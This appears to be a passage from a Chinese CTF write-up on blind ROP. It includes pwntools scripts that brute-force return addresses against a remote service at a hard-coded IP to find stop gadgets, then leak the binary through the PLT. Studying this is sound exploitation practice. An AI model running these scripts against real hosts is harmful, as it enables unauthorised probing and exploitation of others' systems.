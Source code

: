 接下来，由于此时已经知道了三个gadget，那么此时只需要**遍历PLT可能的地址**，就能够拿到write。之后就是将整个程序dump下来，并且进行正常的pwn就好了。


## 实例
这个是从大佬学校那里偷来的题目，这里记录一下做题过程（小白混入怕被拍）
首先发现是一个要求我们输入passwd的程序，显然我是猜不到这个passwd是啥的:
```
Hello my friend,I forget my passwd.could you help me?                                                                
aaa                                                                                                                  
wrong passwd
```
然后能够知道，输入120个a的时候还没有崩溃，当输入121个a的时候，不再出现回显，猜测发生崩溃。于是我们利用这个特点，找到其中的stop gadget:
```python
from pwn import *
padding = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
def find_gadget(addr):
    fd = open("gadget.txt",'a')
    fd.write(hex(addr)+'\n')
    fd.close()

# this time ,we should find pop %rsi and pop %rdi
for addr in range(0x400000,0x401AA0,0x1):
    ph = remote("120.77.155.249",10001)

    print ph.recvuntil("me?\n")
    # exp = "a"*i + sh
    passwd = padding + p64(addr)
    log.info("now addr is " + hex(addr))
    ph.sendline(passwd)
    try:
        msg = ph.recvrepeat(12)
        if(msg!= ""):
            log.success("find addr" + hex(addr))
            print msg
            find_gadget(addr)
            addrs.append(addr)
            # break
        ph.close()
    except EOFError as e:
        ph.close()
        log.info("connection close at " +hex(addr))

print addrs
```
由于大概能够猜测到，此处的程序结构简单，并且打算以**程序开头**作为主要的stop gadget，于是这里以**是否会第二次输出回显**作为判断是否得到stop gadget的标志。通过上述方法，能够获得部分的stop gadget。

然后通过遍历的方式，能够得那6个pop的地址，为0x4007ba,并且在gadget中，我还发现了一个疑似PLT的内容:
```
0x4006fb
0x40070a
0x40070c
```
这个地址连续，并且相差6字节。但是重新查找后发现，也有别的地址上也有这样的情况，于是我们从0x400000开始查找
```python
def get_plt_read(addr,ph):
    exp = padding + p64(pop_rdi_ret) + p64(0x400000) + p64(addr)
    ph.sendline(exp)
    msg = ph.recvrepeat(12)
    if msg[:4] == '\x7fELF':
        log.success("find addr is " + hex(addr))
        print base64.standard_b64encode(msg)
```